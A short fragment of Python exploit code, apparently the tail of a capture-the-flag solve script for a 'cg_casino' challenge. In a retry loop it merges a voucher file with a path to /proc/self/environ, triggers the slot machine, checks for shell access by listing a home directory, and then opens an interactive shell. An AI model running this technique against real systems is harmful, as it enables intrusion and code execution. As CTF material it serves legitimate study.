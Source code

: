 ```python
            put_voucher(payload)
            
            merge_voucher(b'/proc/self/environ'.rjust(0x20, b'/'))
        except:
            p.close()
            continue
        slot_machine()
        p.sendline(b'ls /home/cg_casino/')
        line = p.recvline()
        line = p.recvline()
        if b'cg_casino' in line:
            warning("Success!")
            break
        p.close()
    p.interactive()
```